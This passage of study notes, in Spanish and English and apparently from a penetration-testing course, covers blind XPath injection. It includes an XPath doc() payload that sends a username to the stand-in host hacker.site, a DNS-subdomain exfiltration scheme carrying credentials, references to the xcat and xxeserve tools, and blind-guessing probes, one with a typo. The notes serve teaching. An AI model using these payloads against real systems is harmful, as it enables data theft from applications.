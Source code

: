 **encode-for-uri** function:

```js
doc(concat("http://hacker.site/oob/", encode-for-uri(/Employees/Employee[1]/username)))
```

Configurar un servidor HTTP de escucha es bastante simple; sin embargo, si somos perezosos, entonces podemos usar 'xxeserve' o 'xcat'

→ xxeserve = https://github.com/joernchen/xxeserve

→ xcat = http://xcat.readthedocs.org/

XCat es una herramienta de línea de comandos que ayuda en la explotación de fallas de inyección de XPath Ciego. Algunas características:

```
- Advanced data postback through HTTP
- Arbitrarily read XML/text files on the web server via the **doc() function** and crafted SYSTEM entities (XXE)
```

### DNS Channel

A menudo el canal HTTP está bloqueado por cortafut o filtros

* Usualmente incluso cuando no podemos exfiltrar a través de HTTP, las consultas DNS salientes se permiten el acceso a huéspedes arbitrarios.
* Por lo tanto, en lugar de enviar datos como parámetros GET, utilizamos un servidor de nombre controlado y obligamos al sitio de la víctima a resolver nuestro dominio con ellos jugosos datos como valores de subdominio, como:

→ http://username.password.hacker.site

* La longitud de cualquier etiqueta está limitada a entre 1 y 63 octets y globalmente, un nombre de dominio completo, se limita a 255 octets (incluidos los separadores)

> Dado que DNS utiliza principalmente UDP, no está garantizado que las solicitudes lleguen al servidor de atacantes. Piensa en la congestión de la red o todas las demás posibilidades que podrían hacer que los datos se pierdan.

## Note from Video

```js
... and count(/*[1]/*)=1
# find the tree of the XML file

... and substring(name(/*[1],1,1)='a'
# guess the names

in 2.0 we can use:
... and string-to-codepoints(/*[1],1,1) > 100

# in this case codepoints.net can help us translate the values to strings
```

### to exfiltrate via HTTP
